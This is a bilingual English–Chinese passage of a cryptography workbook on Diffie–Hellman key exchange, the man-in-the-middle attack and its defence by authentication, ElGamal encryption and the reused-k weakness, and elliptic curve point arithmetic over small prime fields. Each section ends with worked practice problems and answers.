She knows \(q\), \(\alpha\), \(Y_A\) and \(Y_B\). To get \(K\) she must find \(X_B=\mathrm{dlog}_{\alpha,q}(Y_B)\) and then compute \((Y_A)^{X_B}\bmod q\). Here \(\mathrm{dlog}_{\alpha,q}(Y_B)\) is the exponent \(x\) with \(\alpha^x\equiv Y_B \pmod q\). The security of Diffie–Hellman is the difficulty of the discrete logarithm problem（离散对数问题）.她知道 \(q\)、\(\alpha\)、\(Y_A\) 和 \(Y_B\)。要得到 \(K\)，她必须先求出 \(X_B=\mathrm{dlog}_{\alpha,q}(Y_B)\)，然后再计算 \((Y_A)^{X_B}\bmod q\)。这里 \(\mathrm{dlog}_{\alpha,q}(Y_B)\) 是满足 \(\alpha^x\equiv Y_B \pmod q\) 的指数 \(x\)。Diffie–Hellman 的安全性就在于离散对数问题的困难性。
The reduction modulo \(q\) is essential. Without it, \(\alpha^x\) is an ordinary integer power and the exponent is found with an ordinary logarithm (Practice Q3).对 \(q\) 取模至关重要。若没有取模，\(\alpha^x\) 就只是普通的整数幂，指数可以用普通的对数求出（见练习 Q3）。
Step 3: Diffie–Hellman in protocols第 3 步：Diffie–Hellman 在协议中的应用
Two ways of using it are examined.下面考察它的两种用法。
- Session key exchange. Alice sends a one-time public value. Bob answers with his. Both derive \(K\). The values \(q\) and \(\alpha\) are known in advance or sent in Alice's first message.会话密钥交换。 Alice 发送一个一次性的公开值，Bob 回复他的公开值。双方都推导出 \(K\)。\(q\) 和 \(\alpha\) 这两个值可以事先已知，也可以放在 Alice 的第一条消息中发送。
- Directory of public keys. Each user \(i\) keeps a long-lived private key \(X_i\) and publishes \(Y_i\), with the global \(q\) and \(\alpha\), in a trusted central directory. User \(j\) reads \(Y_i\) and computes the key \(K_{ij}\), which only \(i\) and \(j\) can compute. This gives confidentiality and a degree of authentication, because only \(j\) could have used this key. It gives no protection against replay（重放攻击）, the re-sending of a recorded message, because the static key never changes.公钥目录。 每个用户 \(i\) 保存一个长期使用的私钥 \(X_i\)，并把 \(Y_i\) 与全局参数 \(q\) 和 \(\alpha\) 一起公布在一个可信的中央目录中。用户 \(j\) 读取 \(Y_i\)，并计算出密钥 \(K_{ij}\)，而只有 \(i\) 和 \(j\) 能算出这个密钥。这样能提供机密性，并在一定程度上提供认证，因为只有 \(j\) 才可能使用这个密钥。但它无法防御重放攻击，即重新发送一条已被记录的消息，因为静态密钥从不改变。
Practice练习
Q1. (Calculation) Alice and Bob use DH with \(q=157\) and \(\alpha=5\). Alice's private key is \(X_A=15\) and Bob's is \(X_B=27\). Find both public keys and the shared key.Q1. （计算）Alice 和 Bob 使用参数 \(q=157\) 和 \(\alpha=5\) 进行 DH。Alice 的私钥为 \(X_A=15\)，Bob 的私钥为 \(X_B=27\)。求双方的公钥以及共享密钥。
Answer
Powers of 5 modulo 157: \(5^1=5\), \(5^2=25\), \(5^4=154\), \(5^8=9\), \(5^{16}=81\). Then \(Y_A=5^{15}=5^8\cdot5^4\cdot5^2\cdot5\equiv9\cdot154\cdot25\cdot5\equiv79\) and \(Y_B=5^{27}=5^{16}\cdot5^8\cdot5^2\cdot5\equiv81\cdot9\cdot25\cdot5\equiv65\). Alice computes \(65^{15}\bmod157=78\); Bob computes \(79^{27}\bmod157=78\). The shared key is \(K=78\).模 157 下 5 的幂：\(5^1=5\)，\(5^2=25\)，\(5^4=154\)，\(5^8=9\)，\(5^{16}=81\)。然后 \(Y_A=5^{15}=5^8\cdot5^4\cdot5^2\cdot5\equiv9\cdot154\cdot25\cdot5\equiv79\) 与 \(Y_B=5^{27}=5^{16}\cdot5^8\cdot5^2\cdot5\equiv81\cdot9\cdot25\cdot5\equiv65\)。Alice 计算 \(65^{15}\bmod157=78\)；Bob 计算 \(79^{27}\bmod157=78\)。共享密钥为 \(K=78\)。
Q2. (Calculation) With \(q=23\) and \(\alpha=5\), Alice's public key is \(Y_A=8\) and Bob's is \(Y_B=10\). (a) Show that 5 is a primitive root of 23. (b) Find Bob's private key by brute force and the shared key.Q2. （计算）取 \(q=23\) 和 \(\alpha=5\)，Alice 的公钥为 \(Y_A=8\)，Bob 的公钥为 \(Y_B=10\)。（a）证明 5 是 23 的原根。（b）用穷举法求 Bob 的私钥，并求共享密钥。
Answer
(a) The powers \(5^1,\dots,5^{22}\bmod23\) are \(5,2,10,4,20,8,17,16,11,9,22,18,21,13,19,3,15,6,7,12,14,1\). These 22 values are distinct, so 5 is a primitive root.（a）5 的幂 \(5^1,\dots,5^{22}\bmod23\) 分别为 \(5,2,10,4,20,8,17,16,11,9,22,18,21,13,19,3,15,6,7,12,14,1\)。这 22 个值两两不同，因此 5 是原根。
(b) In the list \(5^3\equiv10\), so \(X_B=3\). Then \(K=(Y_A)^{X_B}=8^3\bmod23=512\bmod23=6\). Check: \(5^6\equiv8\) gives \(X_A=6\), and \(10^6\bmod23=6\).（b）在列表 \(5^3\equiv10\) 中，因此 \(X_B=3\)。然后 \(K=(Y_A)^{X_B}=8^3\bmod23=512\bmod23=6\)。检验：\(5^6\equiv8\) 给出 \(X_A=6\)，并且 \(10^6\bmod23=6\)。
Q3. (Explain) Alice and Bob forget the modulus. With \(\alpha=3\) they announce plain integers: Bob announces 27 and Alice announces 243. Find both private values and the key. What does this show?Q3. （解释）Alice 和 Bob 忘记了模数。在 \(\alpha=3\) 的条件下，他们公布的是普通整数：Bob 公布 27，Alice 公布 243。求双方的私钥和共享密钥。这说明了什么？
Answer
\(27=3^3\), so \(X_B=3\); \(243=3^5\), so \(X_A=5\); \(K=3^{15}=14{,}348{,}907\). Without the modulus, discrete logarithms are ordinary logarithms and easy to compute, so any eavesdropper finds the key. The reduction modulo a prime is what makes exponentiation hard to invert.\(27=3^3\)，所以 \(X_B=3\)；\(243=3^5\)，所以 \(X_A=5\)；\(K=3^{15}=14{,}348{,}907\)。没有模数时，离散对数就是普通的对数，很容易计算，因此任何窃听者都能求出密钥。正是对素数取模，使幂运算难以求逆。
Man-in-the-middle attack ★★★中间人攻击
Goal. Walk through the man-in-the-middle attack step by step, compute the keys it produces, and name the defence.目标。 逐步演示中间人攻击，计算它产生的密钥，并说明防御方法。
Step 1: the attack第 1 步：攻击过程
In words: Darth stands between Alice and Bob and runs one Diffie–Hellman exchange with each, so that each victim shares a key with Darth and not with the other victim.用文字表述：Darth 站在 Alice 和 Bob 之间，分别与他们各进行一次 Diffie–Hellman 交换，于是每个受害者都与 Darth 共享一把密钥，而不是与对方共享。
Plain Diffie–Hellman resists a passive eavesdropper but not an active attacker, because nothing proves who sent a public key. Darth intercepts and replaces messages. He generates two private keys \(X_{D1}\) and \(X_{D2}\) and computes \(Y_{D1}=\alpha^{X_{D1}}\bmod q\) and \(Y_{D2}=\alpha^{X_{D2}}\bmod q\).普通的 Diffie–Hellman 能抵御被动的窃听者，却抵御不了主动攻击者，因为没有任何东西能证明公钥是谁发出的。Darth 截获并替换消息。他生成两个私钥 \(X_{D1}\) 和 \(X_{D2}\)，并计算 \(Y_{D1}=\alpha^{X_{D1}}\bmod q\) 和 \(Y_{D2}=\alpha^{X_{D2}}\bmod q\)。


- Alice sends \(Y_A\). Darth intercepts it and sends \(Y_{D1}\) to Bob. He computes \(K_2=(Y_A)^{X_{D2}}\bmod q\).Alice 发送 \(Y_A\)。Darth 截获它，并把 \(Y_{D1}\) 发送给 Bob。他计算 \(K_2=(Y_A)^{X_{D2}}\bmod q\)。
- Bob computes \(K_1=(Y_{D1})^{X_B}\bmod q\) and sends \(Y_B\). Darth intercepts it and sends \(Y_{D2}\) to Alice. He computes \(K_1=(Y_B)^{X_{D1}}\bmod q\).Bob 计算 \(K_1=(Y_{D1})^{X_B}\bmod q\)，并发送 \(Y_B\)。Darth 截获它，并把 \(Y_{D2}\) 发送给 Alice。他计算 \(K_1=(Y_B)^{X_{D1}}\bmod q\)。
- Alice computes \(K_2=(Y_{D2})^{X_A}\bmod q\).Alice 计算 \(K_2=(Y_{D2})^{X_A}\bmod q\)。
| Key密钥 | Who holds it谁持有该密钥 | How each holder computes it各持有者如何计算该密钥 |
|---|---|---|
| \(K_1\) | Bob and DarthBob 与 Darth | Bob: \((Y_{D1})^{X_B}\). Darth: \((Y_B)^{X_{D1}}\) |
| \(K_2\) | Alice and DarthAlice 与 Darth | Alice: \((Y_{D2})^{X_A}\). Darth: \((Y_A)^{X_{D2}}\) |
Alice and Bob believe they share one key. In fact Alice shares \(K_2\) with Darth and Bob shares \(K_1\) with Darth. Darth decrypts each message from Alice with \(K_2\) and encrypts it again for Bob with \(K_1\). He may pass it on unchanged (eavesdropping) or replace it by a forged message (modification). Both victims see a normal exchange.Alice 和 Bob 以为他们共享同一把密钥。事实上，Alice 与 Darth 共享 \(K_2\)，Bob 与 Darth 共享 \(K_1\)。Darth 用 \(K_2\) 解密 Alice 发来的每条消息，再用 \(K_1\) 为 Bob 重新加密。他可以原样转发（窃听），也可以用伪造的消息替换（篡改）。两个受害者看到的都是正常的通信过程。
Step 2: the defence第 2 步：防御
In words: the attack works because the public values are not authenticated, so the cure is to authenticate them.用文字表述：攻击之所以成功，是因为公开值没有经过认证，所以解决办法就是对它们进行认证。
Each side signs its public value with a digital signature whose public key is certified (Sections 13.1 and 13.5). Darth cannot sign \(Y_{D1}\) in Alice's name. TLS does this in its Diffie–Hellman key exchanges (Section 19.3). The directory scheme of Section 10.1 is also safe if the directory is trusted and authenticated. A directory under the attacker's control is not: he replaces \(Y_i\) by his own value.双方各自用数字签名对自己的公开值签名，签名所用的公钥则经过证书认证（见第 13.1 节和第 13.5 节）。Darth 无法以 Alice 的名义签署 \(Y_{D1}\)。TLS 在它的 Diffie–Hellman 密钥交换中就是这样做的（见第 19.3 节）。只要目录可信且经过认证，第 10.1 节的目录方案也是安全的。但如果目录处在攻击者的控制之下，就不安全了：他会用自己的值替换 \(Y_i\)。
Practice练习
Q1. (Calculation) \(q=23\), \(\alpha=5\), \(X_A=6\), \(X_B=3\). Darth uses a single key pair \(X_D=4\) and sends \(Y_D\) to both victims. Find all public keys and the keys that result. Is one pair enough for the attack?Q1. （计算）\(q=23\)、\(\alpha=5\)、\(X_A=6\)、\(X_B=3\)。Darth 使用单个密钥对 \(X_D=4\)，并向双方发送 \(Y_D\)。求出所有公钥以及由此得到的密钥。一个密钥对是否足以完成该攻击？
Answer
\(Y_A=5^6\bmod23=8\), \(Y_B=5^3\bmod23=10\), \(Y_D=5^4\bmod23=4\). Alice receives \(Y_D\) and computes \(K_A=4^6\bmod23=2\); Bob computes \(K_B=4^3\bmod23=18\). Darth computes \((Y_A)^{X_D}=8^4\bmod23=2\) and \((Y_B)^{X_D}=10^4\bmod23=18\), so he shares 2 with Alice and 18 with Bob; the honest key 6 never appears. One pair is enough: the two keys differ (because \(X_A\ne X_B\)), but Darth can compute both from his single \(X_D\).\(Y_A=5^6\bmod23=8\)、\(Y_B=5^3\bmod23=10\)、\(Y_D=5^4\bmod23=4\)。Alice 收到 \(Y_D\) 并计算 \(K_A=4^6\bmod23=2\)；Bob 计算 \(K_B=4^3\bmod23=18\)。Darth 计算 \((Y_A)^{X_D}=8^4\bmod23=2\) 和 \((Y_B)^{X_D}=10^4\bmod23=18\)，因此他与 Alice 共享 2，与 Bob 共享 18；诚实的密钥 6 从未出现。一个密钥对就足够了：两个密钥不同（因为 \(X_A\ne X_B\)），但 Darth 可以由他唯一的 \(X_D\) 计算出两者。
Q2. (Scenario) A LAN keeps every user's long-term DH public key in a central directory. (a) Which security services does a message encrypted with the pairwise key \(K_{ij}\) get? (b) Name one attack that remains and one more that an attacker who controls the directory can mount, and give a defence for each.Q2. （情景分析）一个局域网在中央目录中保存每个用户的长期 DH 公钥。（a）用成对密钥 \(K_{ij}\) 加密的消息能获得哪些安全服务？（b）说出一种仍然存在的攻击，以及攻击者控制目录后还能发起的另一种攻击，并分别给出防御办法。
Answer
(a) Confidentiality, because only \(i\) and \(j\) can compute \(K_{ij}\), and a degree of authentication, because the recipient knows that only \(j\) could have used this key.（a）保密性，因为只有 \(i\) 和 \(j\) 能够计算 \(K_{ij}\)；以及一定程度的认证，因为接收方知道只有 \(j\) 可能使用过该密钥。
(b) Replay: a recorded message can be sent again because the static key never changes; add timestamps, nonces or sequence numbers. Directory attack: replacing \(Y_i\) by the attacker's value gives a man-in-the-middle; certify or sign the directory entries (Chapter 13).（b）重放：由于静态密钥永不改变，被记录的消息可以再次发送；应加入时间戳、一次性随机数或序列号。目录攻击：攻击者用自己的值替换 \(Y_i\)，即构成中间人攻击；应对目录条目进行签名或证书认证（第 13 章）。
Q3. (True or false) "If Alice and Bob encrypt their traffic with the DH key, they will notice a man-in-the-middle." Justify.Q3. （判断）“若 Alice 和 Bob 用 DH 密钥加密通信，他们就会察觉到中间人攻击。”请说明理由。
Answer
False. Darth decrypts each message with the key he shares with the sender and re-encrypts it with the key he shares with the receiver, so every decryption succeeds and nothing looks wrong. Only authenticating the public keys (signatures, certificates) prevents the attack.错误。Darth 用他与发送方共享的密钥解密每条消息，再用他与接收方共享的密钥重新加密，因此每次解密都能成功，一切看起来都正常。只有对公钥进行认证（签名、证书）才能阻止该攻击。
ElGamal cryptosystem ★★★ElGamal 密码体制
Goal. Generate an ElGamal key pair, encrypt and decrypt a number by hand, and show why a reused random number \(k\) breaks it.目标。生成一对 ElGamal 密钥，手工加密和解密一个数，并说明为什么重复使用随机数 \(k\) 会破坏它。
Step 1: the idea第 1 步：基本思路
In words: ElGamal = Diffie–Hellman used for encryption: Bob makes a one-time key from Alice's public key, multiplies the message by it, and sends a clue from which only Alice can rebuild the key.用文字表述：ElGamal = 用于加密的 Diffie–Hellman：Bob 用 Alice 的公钥生成一个一次性密钥，把消息与它相乘，并发送一个线索，只有 Alice 能由此重建这个密钥。
ElGamal is a public-key encryption scheme based on discrete logarithms. It uses the same global elements as Diffie–Hellman: a prime \(q\) and a primitive root \(\alpha\) of \(q\). Variants of it underlie digital signatures (Section 13.2).ElGamal 是一种基于离散对数的公钥加密方案。它使用与 Diffie–Hellman 相同的全局参数：素数 \(q\)，以及模 \(q\) 的本原根 \(\alpha\)。它的变体也是数字签名的基础（见第 13.2 节）。


Step 2: keys, encryption, decryption第 2 步：密钥、加密与解密
How to do it by hand. Encrypt: 1. Pick \(k\). 2. Compute \(K=(Y_A)^k\), \(C_1=\alpha^k\), \(C_2=KM\), all modulo \(q\). Decrypt: 3. Compute \(K=(C_1)^{X_A}\). 4. Find \(K^{-1}\). 5. Compute \(M=C_2K^{-1}\) modulo \(q\).手工做法。加密：1. 选取 \(k\)。2. 计算 \(K=(Y_A)^k\)、\(C_1=\alpha^k\)、\(C_2=KM\)，均对 \(q\) 取模。解密：3. 计算 \(K=(C_1)^{X_A}\)。4. 求出 \(K^{-1}\)。5. 计算 \(M=C_2K^{-1}\)，对 \(q\) 取模。
Step 3: properties and the reused \(k\)第 3 步：性质，以及重复使用的 \(k\)
- A fresh \(k\) for every block. The ciphertext is randomised: the same \(M\) gives a different \((C_1,C_2)\) for each \(k\). Textbook RSA is deterministic.每个分组都要使用新的 \(k\)。密文是随机化的：同一个 \(M\)，在每一个 \(k\) 中都会得到不同的 \((C_1,C_2)\)。教科书式的 RSA 则是确定性的。
- Twice as long. The ciphertext \((C_1,C_2)\) has two numbers below \(q\) for one plaintext block.长度加倍。对一个明文分组，密文 \((C_1,C_2)\) 包含两个小于 \(q\) 的数。
- Security. An attacker must find \(X_A\) or \(k\) as a discrete logarithm. This is regarded as infeasible if \(q\) has at least 300 decimal digits (about 1000 bits) and \(q-1\) has a large prime factor.安全性。攻击者必须把 \(X_A\) 或 \(k\) 作为离散对数求出。如果 \(q\) 至少有 300 位十进制数字（约 1000 比特），并且 \(q-1\) 含有一个大素因子，这通常被认为是不可行的。
If \(k\) is reused, both blocks have the same \(K\). The repeated \(C_1\) shows it.如果 \(k\) 被重复使用，两个分组就会有相同的 \(K\)。重复出现的 \(C_1\) 就说明了这一点。
Practice练习
Q1. (Calculation) ElGamal with \(q=157\) and \(\alpha=5\). Alice's public key is \(Y_A=10\). (a) Bob encrypts \(M=9\) with \(k=3\). Find the ciphertext. (b) Bob instead chooses \(k\) so that the ciphertext is \((25,C_2)\). Find \(C_2\).Q1. （计算）取 \(q=157\) 和 \(\alpha=5\) 的 ElGamal。Alice 的公钥为 \(Y_A=10\)。（a）Bob 用 \(k=3\) 加密 \(M=9\)，求密文。（b）Bob 改为选取 \(k\)，使密文为 \((25,C_2)\)，求 \(C_2\)。
Answer
(a) \(K=10^3\bmod157=1000-6\cdot157=58\); \(C_1=5^3=125\); \(C_2=58\cdot9\bmod157=522-3\cdot157=51\). Ciphertext \((125,51)\).（a）\(K=10^3\bmod157=1000-6\cdot157=58\)；\(C_1=5^3=125\)；\(C_2=58\cdot9\bmod157=522-3\cdot157=51\)。密文为 \((125,51)\)。
(b) \(C_1=5^k=25\) gives \(k=2\). Then \(K=10^2=100\) and \(C_2=100\cdot9\bmod157=900-5\cdot157=115\). Ciphertext \((25,115)\).（b）\(C_1=5^k=25\) 得到 \(k=2\)。然后 \(K=10^2=100\) 和 \(C_2=100\cdot9\bmod157=900-5\cdot157=115\)。密文为 \((25,115)\)。
Q2. (Calculation) In the \(q=19\), \(\alpha=10\) system of the example, Alice (private key \(X_A=5\)) receives the ciphertext \((6,7)\). Decrypt it.Q2. （计算）在例中的 \(q=19\)、\(\alpha=10\) 体制中，私钥为 \(X_A=5\) 的 Alice 收到密文 \((6,7)\)。请解密。
Answer
\(K=C_1^{X_A}=6^5\bmod19=7776-409\cdot19=5\). \(K^{-1}=5^{-1}\bmod19=4\) because \(5\cdot4=20\equiv1\). \(M=C_2K^{-1}=7\cdot4\bmod19=28-19=9\). The plaintext is \(M=9\).\(K=C_1^{X_A}=6^5\bmod19=7776-409\cdot19=5\)。\(K^{-1}=5^{-1}\bmod19=4\)，因为 \(5\cdot4=20\equiv1\)。\(M=C_2K^{-1}=7\cdot4\bmod19=28-19=9\)。明文为 \(M=9\)。
Q3. (Attack) Bob encrypts two blocks with the same \(k\) for Alice's key \(\lbrace19,10,3\rbrace\). Eve sees \((11,5)\) and \((11,9)\) and knows the first plaintext was \(M_1=17\). Find \(M_2\) and explain why this is possible.Q3. （攻击）Bob 用同一个 \(k\) 为 Alice 的密钥 \(\lbrace19,10,3\rbrace\) 加密两个分组。Eve 看到 \((11,5)\) 和 \((11,9)\)，并且知道第一个明文为 \(M_1=17\)。求出 \(M_2\)，并解释为什么这是可能的。
Answer
The equal \(C_1=11\) shows that \(k\) was reused, so both blocks use the same \(K\): \(C_{2,1}=KM_1\) and \(C_{2,2}=KM_2\). Then \(M_2=C_{2,2}\,C_{2,1}^{-1}M_1=9\cdot5^{-1}\cdot17\bmod19\) with \(5^{-1}=4\), so \(9\cdot4\cdot17=612\equiv4\) and \(M_2=4\). The unknown \(K\) cancels in the quotient, so one known plaintext exposes the other; every block needs a fresh \(k\).两个相等的 \(C_1=11\) 表明 \(k\) 被重复使用，因此两个分组使用同一个 \(K\)：\(C_{2,1}=KM_1\) 和 \(C_{2,2}=KM_2\)。于是 \(M_2=C_{2,2}\,C_{2,1}^{-1}M_1=9\cdot5^{-1}\cdot17\bmod19\)，再结合 \(5^{-1}=4\)，得 \(9\cdot4\cdot17=612\equiv4\) 和 \(M_2=4\)。未知的 \(K\) 在商中被消去，因此一个已知明文就会暴露另一个明文；每个分组都需要一个新的 \(k\)。
Elliptic curve arithmetic ★★★椭圆曲线运算
Goal. Check whether a curve over \(\mathbb{Z}_p\) gives a group, find the points of a small curve, and add or double points by hand.目标。检验 \(\mathbb{Z}_p\) 上的曲线是否构成群，求出一条小曲线的点，并手工做点的加法和倍点运算。
| Diffie–Hellman and ElGamalDiffie–Hellman 与 ElGamal | Elliptic curve cryptography椭圆曲线密码学 | |
|---|---|---|
| Group operation群运算 | multiplication modulo \(q\) | point addition点加法 |
| Repeated operation重复运算 | exponentiation \(\alpha^k\) | scalar multiplication \(kP\) |
| Hard problem困难问题 | given \(\alpha\) and \(\alpha^k\), find \(k\) | given \(P\) and \(kP\), find \(k\) |
Step 1: the curve and its group condition第 1 步：曲线及其成群条件
In words: an elliptic curve is the set of points \((x,y)\) that satisfy a cubic equation, plus one extra point called the point at infinity. It forms a group when the curve has no repeated factor.用文字表述：椭圆曲线是满足一个三次方程的点 \((x,y)\) 的集合，再加上一个额外的点，叫做无穷远点。当曲线没有重复因子时，它构成一个群。
Elliptic curves are not ellipses. The form used here is \(y^2=x^3+ax+b\). The set \(E(a,b)\) holds all points \((x,y)\) on the curve and one extra element \(O\), the point at infinity（无穷远点）, also called the zero point. It is the identity of the group.椭圆曲线不是椭圆。这里使用的形式是 \(y^2=x^3+ax+b\)。集合 \(E(a,b)\) 包含曲线上的所有点 \((x,y)\)，以及一个额外的元素 \(O\)，即无穷远点，也叫零点。它是这个群的单位元。
Step 2: the geometric rule第 2 步：几何规则
In words: three points of the curve on one straight line add up to \(O\).用文字表述：位于同一条直线上的三个曲线点，它们的和为 \(O\)。


The figure shows \(y^2=x^3-x\) and \(y^2=x^3+x+1\). Both satisfy the condition (\(-4\ne0\) and \(31\ne0\)). The rules follow from the line rule.图中给出 \(y^2=x^3-x\) 和 \(y^2=x^3+x+1\)。两者都满足这一条件（\(-4\ne0\) 和 \(31\ne0\)）。这些规则都由直线规则推出。
- \(P+O=P\).
- The negative of \(P=(x,y)\) is \(-P=(x,-y)\), its mirror image in the x-axis. Then \(P+(-P)=O\).\(P=(x,y)\) 的负元是 \(-P=(x,-y)\)，即它关于 x 轴的镜像。于是 \(P+(-P)=O\)。
- For \(P\ne\pm Q\) the line through \(P\) and \(Q\) meets the curve in a third point \(R\). Then \(P+Q\) is the mirror image of \(R\).对于 \(P\ne\pm Q\)，过 \(P\) 和 \(Q\) 的直线与曲线相交于第三个点 \(R\)。于是 \(P+Q\) 就是 \(R\) 的镜像。
- To double \(Q\) draw the tangent and take its other intersection \(S\). Then \(2Q=-S\). A vertical tangent (where \(y=0\)) gives \(2Q=O\).要计算 \(Q\) 的两倍，先画切线，取它与曲线的另一个交点 \(S\)。然后是 \(2Q=-S\)。切线竖直时（即 \(y=0\) 时）结果为 \(2Q=O\)。
Step 3: the formulas第 3 步：公式
In words: find the slope of the chord or tangent, then the x-coordinate of the result, then its y-coordinate.用文字表述：先求弦或切线的斜率，再求结果的 x 坐标，最后求 y 坐标。
Step 4: curves over \(\mathbb{Z}_p\)第 4 步：\(\mathbb{Z}_p\) 上的曲线
Cryptography uses a finite field, which gives a finite group. A prime curve（素数曲线）over \(\mathbb{Z}_p\) satisfies \(y^2\equiv x^3+ax+b \pmod p\) with \(x,y\in\{0,\dots,p-1\}\). \(E_p(a,b)\) is the set of these points together with \(O\). There is no picture, but the formulas above work unchanged. The negative of \(P=(x_P,y_P)\) is \((x_P,\,-y_P\bmod p)\).密码学使用有限域，它给出一个有限群。在 \(\mathbb{Z}_p\) 上的素数曲线满足 \(y^2\equiv x^3+ax+b \pmod p\)，其中 \(x,y\in\{0,\dots,p-1\}\)。\(E_p(a,b)\) 是这些点连同 \(O\) 的集合。它没有图形可画，但上面的公式照样适用。\(P=(x_P,y_P)\) 的负元是 \((x_P,\,-y_P\bmod p)\)。
How to find the points by hand: 1. For each \(x\) from 0 to \(p-1\) compute \(x^3+ax+b \bmod p\). 2. Check whether the value is a square modulo \(p\). 3. If it is, the two square roots are the \(y\)-values.手工求点的方法：1. 对从 0 到 \(p-1\) 的每个 \(x\)，计算 \(x^3+ax+b \bmod p\)。2. 检查该值对 \(p\) 是否为平方剩余。3. 如果是，它的两个平方根就是 \(y\) 值。
Take \(E_{23}(1,1)\): \(y^2=x^3+x+1\) over \(\mathbb{Z}_{23}\). It is a group because \(4+27=31\equiv8\ne0\). The point \((9,7)\) lies on it: \(7^2=49\equiv3\) and \(9^3+9+1=739\equiv3\). The table lists the points other than \(O\). With \(O\) there are \(N=28\) points.取 \(E_{23}(1,1)\)：在 \(\mathbb{Z}_{23}\) 上的 \(y^2=x^3+x+1\)。它是一个群，因为 \(4+27=31\equiv8\ne0\)。点 \((9,7)\) 在曲线上，即 \(7^2=49\equiv3\) 与 \(9^3+9+1=739\equiv3\) 成立。表中列出了除 \(O\) 之外的点。取 \(O\) 时共有 \(N=28\) 个点。
| \(x\) | \(y\) | \(x\) | \(y\) |
|---|---|---|---|
| 0 | 1, 22 | 9 | 7, 16 |
| 1 | 7, 16 | 11 | 3, 20 |
| 3 | 10, 13 | 12 | 4, 19 |
| 4 | 0 | 13 | 7, 16 |
| 5 | 4, 19 | 17 | 3, 20 |
| 6 | 4, 19 | 18 | 3, 20 |
| 7 | 11, 12 | 19 | 5, 18 |

